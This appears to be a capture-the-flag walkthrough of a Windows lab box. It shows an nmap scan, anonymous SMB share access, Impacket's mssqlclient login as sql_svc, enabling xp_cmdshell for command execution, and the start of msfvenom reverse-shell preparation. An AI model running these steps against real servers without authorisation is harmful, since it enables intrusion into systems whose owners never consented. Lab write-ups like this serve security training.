 **NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.95.187
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* 135/tcp   open  msrpc        Microsoft Windows RPC
* 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
* 445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
* 1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.0
* 5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  msrpc        Microsoft Windows RPC
* 49665/tcp open  msrpc        Microsoft Windows RPC
* 49666/tcp open  msrpc        Microsoft Windows RPC
* 49667/tcp open  msrpc        Microsoft Windows RPC
* 49668/tcp open  msrpc        Microsoft Windows RPC
* 49669/tcp open  msrpc        Microsoft Windows RPC

**SMB Client** to enumerate the SMB


```sh
  smbclient -N -L \\\\10.129.95.187\\
  ```

List of shares (**-L**)

No password (**-N**)

![image](https://user-images.githubusercontent.com/99097743/169720137-8d8b886d-3eb6-4862-b00f-76014203e263.png)

One of the sharenames does not have the dollar sign (**backups**) --> Non-Administrative share over SMB  


```sh
  smbclient -N //10.129.95.187/backups
  ```

**Impacket** to connect and authenticate to the MSSQL server

Impacket is a collection of Python classes for working with network protocols. Impacket packet includes **mssqlclient.py**  An MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS. **It can be used in order to establish an authenticated connection to a Microsoft SQL Server**.


https://github.com/SecureAuthCorp/impacket

Impacket Installation Steps:
```sh
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket
supo python3 ./setup.py install
```

The command to connect and authenticate to the MSSQL server:
```sh
mssqlclient.py ARCHETYPE/sql_svc:{Password}@10.129.95.187 -windows-auth
```

- Please make sure to **enable xp_cmdshell** and **reconfigure**
- Need to use **xp_cmdshell** before every comments
  - xp_cmdshell dir --> Shows directory
  - xp_cmdshell "powershell -c cd C:/; pwd" --> First changes dir to C:/ then shows pwd

**Generate Reverse Shell**

We can try **msfvenom** tool to generate the payload for the reverse shell. 

![image](https://user-images.githubusercontent.com/99097743/169732063-60f5b6b4-3640-4197-92d5-8c265a02d9c7.png)

```sh
msfvenom -l payloads 
```


